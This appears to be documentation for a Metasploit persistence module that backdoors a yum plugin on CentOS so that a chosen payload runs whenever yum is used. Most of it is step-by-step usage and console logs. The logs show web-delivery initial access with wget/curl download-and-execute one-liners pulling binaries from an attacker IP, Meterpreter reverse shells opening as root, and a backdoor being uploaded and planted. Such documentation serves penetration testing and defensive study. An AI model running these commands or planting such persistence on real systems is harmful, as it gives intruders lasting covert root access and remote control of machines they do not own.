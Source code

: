 ## Description

This module will run a payload when the package manager is used.
This module modifies a yum plugin to launch a binary of choice.
`grep -F 'enabled=1' /etc/yum/pluginconf.d/`
will show what plugins are currently enabled on the system.

root persmissions are likely required.

Verified on Centos 7.1

## Verification Steps

1. Exploit a box that uses Yum
2. `use exploit/linux/persistence/yum_package_manager`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs yum update the payload will launch.  You must set handler accordingly.

## Options

### PAYLOAD_NAME

Name of backdoor executable

### PLUGIN

Name of the yum plugin to target
  
### PluginPath

Plugin path to use default is (`/usr/lib/yum-plugins/`)

## Scenarios

### Tested on Centos 7.1

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO KOiqZchh --no-check-certificate http://111.111.1.111:8181/l; chmod +x KOiqZchh; ./KOiqZchh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.2.100
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 192.168.2.100:34470) at 2025-02-16 11:30:09 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/yum_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/yum_package_manager) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/home/centos) > getuid
Server username: root
(Meterpreter 1)(/home/centos) > sysinfo
Computer     : centos71.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/centos) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/yum_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/yum_package_manager) > exploit
[*] Command to run on remote host: curl -so ./lgtOaZox http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./lgtOaZox;./lgtOaZox&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/yum_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[+] Plugins are enabled!
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53880) at 2025-02-16 11:30:59 -0500
[!] The service is running, but could not be validated. yum installed and plugin found, enabled, and backdoorable
[*] Attempting to modify plugin
[*] Backdoor uploaded to /tmp/7EtplboZD
[+] Backdoor will run on next Yum update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/centos71.localdomain_20250216.3101/centos71.localdomain_20250216.3101.rc
```
